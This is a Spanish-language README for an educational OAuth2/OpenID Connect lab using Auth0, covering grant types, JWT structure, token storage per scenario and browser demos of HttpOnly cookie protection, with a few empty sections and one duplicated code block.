








# Ejemplo Seguridad en Integraciones

Monorepo educativo que contiene varios escenarios prácticos de OAuth2 / OpenID Connect usando Auth0.

## Objetivo del laboratorio

Proveer un conjunto de ejemplos y ejercicios reproducibles para entender y comparar flujos de autorización (Authorization Code, Authorization Code + PKCE, Implicit, Resource Owner Password Credentials y Client Credentials). Cada escenario incluye un backend y/o frontend mínimo, variables de entorno de ejemplo y un README propio con pasos para ejecutar y probar el flujo contra un tenant de Auth0.

El laboratorio está pensado para estudiantes y desarrolladores que quieran:
- Ver la diferencia entre flujos con y sin usuario.
- Entender seguridad: firma de tokens (RS256), validación con JWKS, scopes y audiencias.
- Probar patrones de arquitectura (BFF, SPA + RS, M2M).

## Fundamentos Teóricos

### 🔐 OAuth 2.0 Framework

OAuth 2.0 (RFC 6749) es un **framework de autorización** que permite a aplicaciones de terceros obtener acceso limitado a servicios HTTP, ya sea en nombre del propietario del recurso o en nombre de la propia aplicación.

#### Roles Fundamentales

| Rol | Descripción | Ejemplo |
|-----|-------------|---------|
| **Resource Owner** | Entidad que puede otorgar acceso a un recurso protegido | Usuario final |
| **Client** | Aplicación que solicita acceso a recursos protegidos | Web App, Mobile App, SPA |
| **Authorization Server** | Servidor que autentica al Resource Owner y emite tokens | Auth0, Okta, Keycloak |
| **Resource Server** | Servidor que hostea recursos protegidos | API REST, Microservicio |

#### Flujos de Autorización (Grant Types)


## 📋 Casos de Uso por Escenario

### Cuándo usar cada flujo OAuth 2.0

| Escenario | Tipo de Aplicación | Casos de Uso Reales | Industria/Dominio | Ventajas Clave |
|-----------|-------------------|---------------------|-------------------|----------------|
| **Authorization Code** | Web Apps con backend | • Aplicaciones empresariales<br/>• Portales de clientes<br/>• E-commerce con checkout<br/>• Banking/Fintech apps<br/>• CRM/ERP sistemas | • Banca y seguros<br/>• E-commerce<br/>• Salud (HIPAA)<br/>• Gobierno<br/>• Enterprise SaaS | • Máxima seguridad<br/>• Tokens nunca en browser<br/>• Soporta MFA complejo<br/>• Auditoría completa |
| **Authorization Code + PKCE** | SPAs y Mobile Apps | • React/Vue/Angular SPAs<br/>• Progressive Web Apps<br/>• Apps móviles nativas<br/>• Aplicaciones Ionic/Cordova<br/>• Desktop apps (Electron) | • Redes sociales<br/>• Apps de productividad<br/>• Streaming media<br/>• Gaming platforms<br/>• IoT dashboards | • Seguro para clientes públicos<br/>• UX fluida<br/>• Soporte offline<br/>• Cross-platform |
| **Client Credentials** | APIs y Servicios | • Microservicios internos<br/>• Jobs de ETL/batch<br/>• APIs de terceros<br/>• CI/CD pipelines<br/>• Webhook processors<br/>• Monitoring systems | • Cloud computing<br/>• DevOps/Infrastructure<br/>• Data analytics<br/>• Payment processing<br/>• Supply chain | • Automatización completa<br/>• Escalabilidad alta<br/>• Sin intervención humana<br/>• Performance óptimo |
| **Implicit** ⚠️ | SPAs Legacy | • ❌ **NO USAR**<br/>• Solo para migración<br/>• Aplicaciones muy antiguas<br/>• Sistemas sin PKCE support | • Legacy systems<br/>• Aplicaciones pre-2019<br/>• Sistemas con CORS limitado | • ⚠️ **DEPRECADO**<br/>• Migrar a PKCE<br/>• Solo uso educativo |
| **Resource Owner Password** ❌ | Sistemas Legacy | • ❌ **NO USAR**<br/>• Migración temporal<br/>• Apps móviles muy antiguas<br/>• Sistemas mainframe legacy | • Banking legacy<br/>• Sistemas gubernamentales<br/>• Infrastructure antigua | • ❌ **DEPRECADO**<br/>• Solo migración temporal<br/>• Alta vulnerabilidad |

### 🎯 Matriz de Decisión por Contexto

| Tu Situación | Flujo Recomendado | Justificación |
|--------------|-------------------|---------------|
| **Desarrollando nueva web app con React + Node.js** | Authorization Code + PKCE | SPA moderna, máxima seguridad para clientes públicos |
| **Web app tradicional con server-side rendering** | Authorization Code | Cliente confidencial, máximo control de seguridad |
| **App móvil iOS/Android nativa** | Authorization Code + PKCE | Cliente público, soporte para biometrics y deep links |
| **Microservicio que consume otra API** | Client Credentials | M2M, sin usuario, automatización completa |
| **Dashboard admin con autenticación compleja** | Authorization Code | Requiere MFA, audit trails, session management |
| **API pública para desarrolladores** | Client Credentials | Third-party integrations, rate limiting, scopes |
| **Progressive Web App (PWA)** | Authorization Code + PKCE | Híbrido web/mobile, offline capability |
| **Sistema legacy que NO puede usar redirects** | ⚠️ Evaluar migración | Considerar proxy/gateway pattern |

### 🏭 Casos de Uso por Industria

#### 🏦 **Fintech/Banking**
```
Authorization Code (Web Banking) + Client Credentials (Core Banking APIs)
├── Portal de clientes → Authorization Code (BFF pattern)
├── Mobile banking → Authorization Code + PKCE  
├── APIs de pagos → Client Credentials
└── Sistemas internos → Client Credentials + mTLS
```

#### 🛒 **E-commerce**
```
Authorization Code + PKCE (Customer Apps) + Client Credentials (Backend)
├── Tienda online → Authorization Code + PKCE
├── Mobile app → Authorization Code + PKCE
├── Inventory APIs → Client Credentials
└── Payment processing → Client Credentials
```

#### 🏥 **Healthcare (HIPAA Compliance)**
```
Authorization Code (Maximum Security) + Client Credentials (Interoperability)
├── Patient portal → Authorization Code (audit compliant)
├── EMR systems → Authorization Code + SMART on FHIR
├── HL7 FHIR APIs → Client Credentials
└── Medical devices → Client Credentials + device certs
```

#### ☁️ **Cloud/SaaS Platforms**
```
Multi-tenant con todos los flujos según cliente
├── Admin dashboard → Authorization Code
├── Customer SPAs → Authorization Code + PKCE
├── Mobile apps → Authorization Code + PKCE
├── APIs públicas → Client Credentials
└── Webhooks → Client Credentials
```

### 🔄 Patrones de Migración

| Desde | Hacia | Estrategia | Timeline |
|-------|-------|------------|----------|
| **Implicit** | Authorization Code + PKCE | Feature flag, gradual rollout | 3-6 meses |
| **ROPC** | Authorization Code + PKCE | User education, proxy pattern | 6-12 meses |
| **Custom auth** | Authorization Code | Identity federation, SSO | 12+ meses |
| **Session-based** | OAuth 2.0 | Hybrid mode, gradual migration | 6-18 meses |

### 🎫 JSON Web Tokens (JWT)

JWT (RFC 7519) es un estándar para transmitir información de forma segura entre partes como un objeto JSON compacto y autocontenido.

#### Estructura de un JWT

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.signature
├─────────── Header ──────────┤├────────────── Payload ─────────────┤├─ Signature ─┤
```

#### Componentes del JWT

**1. Header**
```json
{
  "alg": "RS256",     // Algoritmo de firma
  "typ": "JWT",       // Tipo de token
  "kid": "abc123"     // Key ID para JWKS
}
```

**2. Payload (Claims)**
```json
{
  // Claims registrados (RFC 7519)
  "iss": "https://auth0-domain.auth0.com/",  // Issuer
  "aud": "https://api.example.com",          // Audience
  "sub": "user123",                          // Subject
  "iat": 1635724800,                         // Issued At
  "exp": 1635728400,                         // Expiration
  "nbf": 1635724800,                         // Not Before
  
  // Claims públicos
  "scope": "read:users write:posts",
  "permissions": ["read:users", "admin"],
  
  // Claims privados
  "tenant_id": "acme-corp",
  "department": "engineering"
}
```

**3. Signature**
```javascript
// Para RS256 (Asymmetric)
signature = RSA-SHA256(
  base64urlEncode(header) + "." + base64urlEncode(payload),
  private_key
)

// Verificación con clave pública
verify(signature, public_key) // true/false
```

#### Algoritmos de Firma

| Algoritmo | Tipo | Descripción | Uso Recomendado |
|-----------|------|-------------|-----------------|
| **HS256** | Symmetric | HMAC SHA-256 | APIs internas, shared secret |
| **RS256** | Asymmetric | RSA SHA-256 | Distribución pública, microservicios |
| **ES256** | Asymmetric | ECDSA SHA-256 | Performance crítico, IoT |

#### Validación de JWT



### 🆔 OpenID Connect (OIDC)

OpenID Connect es una capa de **identidad** construida sobre OAuth 2.0, que añade autenticación al framework de autorización.

#### OAuth 2.0 vs OpenID Connect



#### ID Token vs Access Token

| Aspecto | ID Token | Access Token |
|---------|----------|--------------|
| **Propósito** | Identidad del usuario | Autorización para APIs |
| **Formato** | Siempre JWT | JWT u opaco |
| **Audiencia** | Cliente (aplicación) | Resource Server (API) |
| **Contiene** | Info del usuario | Scopes y permisos |
| **Validación** | Cliente valida | API valida |
| **Lifetime** | Corto (1 hora) | Configurable |

#### Claims Estándar en ID Token

```json
{
  // Claims OIDC Core
  "sub": "auth0|507f1f77bcf86cd799439011",
  "name": "Jane Doe",
  "given_name": "Jane",
  "family_name": "Doe",
  "middle_name": "Michelle",
  "nickname": "Jane",
  "preferred_username": "jane.doe",
  "profile": "https://example.com/jane.doe",
  "picture": "https://example.com/jane.doe/avatar.jpg",
  "website": "https://janedoe.com",
  "email": "jane.doe@example.com",
  "email_verified": true,
  "gender": "female",
  "birthdate": "1975-12-15",
  "zoneinfo": "America/Argentina/Buenos_Aires",
  "locale": "es-AR",
  "phone_number": "+54 11 1234 5678",
  "phone_number_verified": false,
  "address": {
    "country": "Argentina"
  },
  "updated_at": 1635724800,
  
  // Claims de seguridad
  "iss": "https://example.auth0.com/",
  "aud": "client_id_123",
  "iat": 1635724800,
  "exp": 1635728400,
  "nonce": "abc123xyz",
  "at_hash": "hash_of_access_token"
}
```

### � Almacenamiento de Tokens por Escenario

La **ubicación y forma de almacenar tokens** es crítica para la seguridad y debe elegirse según el tipo de aplicación y flujo OAuth 2.0 utilizado.

#### Matriz de Almacenamiento por Escenario

| Escenario | Tipo Cliente | Access Token | ID Token | Refresh Token | Session Data | Ubicación Recomendada |
|-----------|--------------|--------------|-----------|---------------|--------------|----------------------|
| **Authorization Code** | Confidencial | Backend | Backend | Backend | Cookies HttpOnly | 🛡️ Servidor + Cookies |
| **Auth Code + PKCE** | Público | Frontend | Frontend | Frontend | LocalStorage/Memory | 📱 Cliente (con precauciones) |
| **Client Credentials** | Confidencial | Backend | N/A | N/A | Cache/DB | 🖥️ Servidor/Cache |
| **Implicit** ⚠️ | Público | Frontend | Frontend | N/A | Memory only | ⚠️ Solo memoria |
| **ROPC** ❌ | Variable | Depende | Depende | Depende | Depende | ❌ Evitar uso |

#### 🔐 Authorization Code (BFF Pattern)

**Almacenamiento óptimo para máxima seguridad:**



**Implementación:**
```javascript
// Backend: Almacenamiento seguro
const sessions = new Map(); // o Redis en producción

app.post('/callback', async (req, res) => {
  const { code } = req.query;
  
  // Intercambiar code por tokens
  const tokens = await exchangeCodeForTokens(code);
  
  // Generar session ID
  const sessionId = crypto.randomUUID();
  
  // Almacenar tokens en servidor
  sessions.set(sessionId, {
    accessToken: tokens.access_token,
    refreshToken: tokens.refresh_token,
    idToken: tokens.id_token,
    expiresAt: Date.now() + (tokens.expires_in * 1000)
  });
  
  // Solo enviar session ID al navegador
  res.cookie('session_id', sessionId, {
    httpOnly: true,    // 🛡️ No accesible via JS
    secure: true,      // 🔒 Solo HTTPS
    sameSite: 'Lax',   // 🚫 Protección CSRF
    maxAge: 3600000    // ⏰ 1 hora
  });
  
  res.redirect('/dashboard');
});
```

#### 📱 Authorization Code + PKCE (SPA Pattern)

**Almacenamiento en cliente público con medidas de seguridad:**



**Opciones de almacenamiento (de más a menos seguro):**

| Ubicación | Access Token | ID Token | Refresh Token | Pros | Contras |
|-----------|--------------|-----------|---------------|------|---------|
| **Memory (Variables)** | ✅ Recomendado | ✅ Recomendado | 🔶 Temporal | • No persistente<br/>• Inmune a XSS | • Se pierde al reload<br/>• No sobrevive tabs |
| **SessionStorage** | 🔶 Aceptable | 🔶 Aceptable | ✅ Recomendado | • Por pestaña<br/>• Mejor que localStorage | • Vulnerable a XSS<br/>• Visible en DevTools |
| **LocalStorage** | ❌ No recomendado | ❌ No recomendado | 🔶 Último recurso | • Persistente<br/>• Cross-tab | • Muy vulnerable XSS<br/>• Visible en DevTools |
| **IndexedDB** | 🔶 Con encriptación | 🔶 Con encriptación | ✅ Con encriptación | • Encriptación posible<br/>• Más control | • Complejidad alta<br/>• Aún vulnerable XSS |

**Implementación segura en SPA:**
```javascript
// Token manager para SPA
class SecureTokenManager {
  constructor() {
    this.accessToken = null;     // 💾 Solo en memoria
    this.idToken = null;         // 💾 Solo en memoria
    this.refreshToken = null;    // 💿 SessionStorage encriptado
  }
  
  // Almacenar tokens después del login
  setTokens(tokens) {
    // Access e ID tokens solo en memoria
    this.accessToken = tokens.access_token;
    this.idToken = tokens.id_token;
    
    // Refresh token encriptado en sessionStorage
    if (tokens.refresh_token) {
      const encrypted = this.encrypt(tokens.refresh_token);
      sessionStorage.setItem('rt', encrypted);
    }
  }
  
  // Obtener access token válido
  async getValidAccessToken() {
    // Si el token existe y no está vencido
    if (this.accessToken && !this.isTokenExpired(this.accessToken)) {
      return this.accessToken;
    }
    
    // Si no, intentar renovar con refresh token
    return await this.refreshAccessToken();
  }
  
  // Renovar tokens
  async refreshAccessToken() {
    const encryptedRT = sessionStorage.getItem('rt');
    if (!encryptedRT) {
      throw new Error('No refresh token available');
    }
    
    const refreshToken = this.decrypt(encryptedRT);
    const newTokens = await this.auth0.refreshTokens(refreshToken);
    
    this.setTokens(newTokens);
    return this.accessToken;
  }
  
  // Limpiar todos los tokens
  logout() {
    this.accessToken = null;
    this.idToken = null;
    this.refreshToken = null;
    sessionStorage.removeItem('rt');
  }
  
  // Encriptación simple para refresh token
  encrypt(text) {
    // Implementar encriptación real en producción
    return btoa(text); // Solo ejemplo
  }
  
  decrypt(encrypted) {
    return atob(encrypted); // Solo ejemplo
  }
}
```

#### 🤖 Client Credentials (M2M Pattern)

**Almacenamiento para servicios automatizados:**



**Implementación con cache automático:**
```javascript
// Token manager para M2M
class M2MTokenManager {
  constructor() {
    this.redis = new Redis(process.env.REDIS_URL);
    this.clientId = process.env.AUTH0_CLIENT_ID;
    this.clientSecret = process.env.AUTH0_CLIENT_SECRET;
  }
  
  async getValidAccessToken() {
    const cacheKey = `m2m_token:${this.clientId}`;
    
    // Intentar obtener del cache
    let token = await this.redis.get(cacheKey);
    if (token) {
      return token;
    }
    
    // Si no está en cache, solicitar nuevo token
    token = await this.requestNewToken();
    
    // Guardar en cache con TTL
    const ttl = 3600 - 300; // 5 min antes de expirar
    await this.redis.setex(cacheKey, ttl, token);
    
    return token;
  }
  
  async requestNewToken() {
    const response = await fetch('https://tenant.auth0.com/oauth/token', {
      method: 'POST',
      headers: {'Content-Type': 'application/json'},
      body: JSON.stringify({
        grant_type: 'client_credentials',
        client_id: this.clientId,
        client_secret: this.clientSecret,
        audience: process.env.AUTH0_AUDIENCE
      })
    });
    
    const data = await response.json();
    return data.access_token;
  }
}
```

#### ⚠️ Comparación de Vulnerabilidades por Almacenamiento

| Ubicación | XSS Risk | CSRF Risk | Theft Risk | Network Risk | Recomendado Para |
|-----------|----------|-----------|------------|--------------|------------------|
| **HttpOnly Cookies** | ✅ Protegido | ✅ Con SameSite | ✅ Protegido | 🔶 HTTPS only | Authorization Code |

#### 🧪 **Demostración: HttpOnly vs DevTools**

**¿Qué es `connect.sid`?**

Cuando veas una cookie llamada `connect.sid` en Chrome DevTools, es la **cookie de sesión automática de Express.js**:

```javascript
// Express.js crea automáticamente esta cookie cuando usas sessions
app.use(session({
  secret: 'your-secret-key',
  name: 'connect.sid',  // 👈 Nombre por defecto
  cookie: {
    httpOnly: true,     // 🛡️ Automáticamente protegida
    secure: false,      // 🔓 false para desarrollo HTTP
    maxAge: 3600000     // ⏰ 1 hora
  }
}));

// Estructura de connect.sid en Chrome:
// connect.sid = s%3A[session-id].[signature]
//   ├── s%3A = URL encoding de "s:"
//   ├── [session-id] = ID único de sesión
//   └── [signature] = Firma HMAC para validación
```

**✅ Esto es CORRECTO y SEGURO:**
- `connect.sid` contiene solo un identificador de sesión
- Los tokens OAuth reales están seguros en el servidor
- La cookie está marcada como `HttpOnly=true`

**Configuración de cookies para testing:**
```javascript
// Backend: Configurar diferentes tipos de cookies
app.get('/set-test-cookies', (req, res) => {
  // Cookie normal (accesible desde JavaScript)
  res.cookie('normal_cookie', 'visible_to_js', {
    secure: true,
    sameSite: 'Lax'
  });
  
  // Cookie HttpOnly (NO accesible desde JavaScript)
  res.cookie('session_id', 'secret_session_token', {
    httpOnly: true,    // 🛡️ Esta es la clave
    secure: true,
    sameSite: 'Lax'
  });
  
  res.json({message: 'Cookies set for testing'});
});
```

**Testing en el navegador:**
```javascript
// En la consola del navegador:
console.log('document.cookie:', document.cookie);
// Resultado: "normal_cookie=visible_to_js"
// ❌ NO incluye: "connect.sid" o "session_id"

// Verificar en DevTools:
// 1. F12 → Application → Cookies → localhost:4001
// 2. Verás cookies como:
//    • normal_cookie=visible_to_js (❌ Sin HttpOnly)
//    • connect.sid=s%3A[hash] (✅ HttpOnly=true)
// 3. La cookie HttpOnly tendrá una marca ✅ en la columna "HttpOnly"
```

**Intento de modificación:**
```javascript
// Intentar sobrescribir cookie HttpOnly
document.cookie = "session_id=hacked_value; path=/";

// Verificar resultado
console.log(document.cookie);
// ❌ Aún NO aparece session_id
// ✅ En DevTools verás que session_id mantiene su valor original
```

#### 🔬 **Casos de Testing Comunes**

**1. Identificar cookies de Express.js:**
```javascript
// La cookie "connect.sid" es el session ID de Express
// Estructura: s%3A[session-data].[signature]
console.log('Cookies en DevTools:');
console.log('• connect.sid = Cookie de sesión de Express (HttpOnly)');
console.log('• normal_cookie = Cookie accesible por JavaScript');
console.log('');
console.log('✅ Si connect.sid NO aparece en document.cookie = Configuración correcta');
```

**2. Debugging de autenticación:**
```javascript
// Para desarrolladores: verificar si las cookies están configuradas
**2. Debugging de autenticación:**
```javascript
// Para desarrolladores: verificar si las cookies están configuradas
function debugCookies() {
  console.log('Cookies accesibles por JS:', document.cookie);
  console.log('⚠️ Cookies HttpOnly (connect.sid, session_id) NO aparecen arriba');
  console.log('👀 Verificar en DevTools → Application → Cookies → localhost:4001');
}
```

**3. Verificar configuración de seguridad:**
```javascript
// Función para validar configuración (solo desarrollo)
function validateCookieSecurity() {
  const allCookies = document.cookie.split(';');
  
  console.log('🔍 Cookies visibles por JavaScript:');
  allCookies.forEach(cookie => {
    const [name, value] = cookie.trim().split('=');
    console.log(`  ${name}: ${value}`);
  });
  
  console.log('');
  console.log('✅ Si no ves cookies de sesión aquí = Configuración correcta');
  console.log('❌ Si ves tokens/sessions aquí = PROBLEMA DE SEGURIDAD');
}
```

#### 🎯 **Mejores Prácticas de Testing**

**Para Desarrolladores:**
```bash
✅ DO:
- Usar DevTools para verificar cookies HttpOnly
- Entender que connect.sid es normal y seguro
- Testear que JavaScript NO puede acceder a tokens
- Verificar flags de seguridad (Secure, SameSite)
- Probar logout limpia todas las cookies

❌ DON'T:
- Preocuparse por ver connect.sid en DevTools
- Depender de console.log para ver todas las cookies
- Asumir que invisible = no existe
- Testear solo en HTTP (usar HTTPS)
- Ignorar warnings de SameSite en consola
```

**📋 Checklist de Cookies Seguras:**

| Cookie | Visible en `document.cookie` | HttpOnly | Propósito | Estado |
|--------|------------------------------|----------|-----------|--------|
| `connect.sid` | ❌ No | ✅ Sí | Session ID de Express | ✅ Correcto |
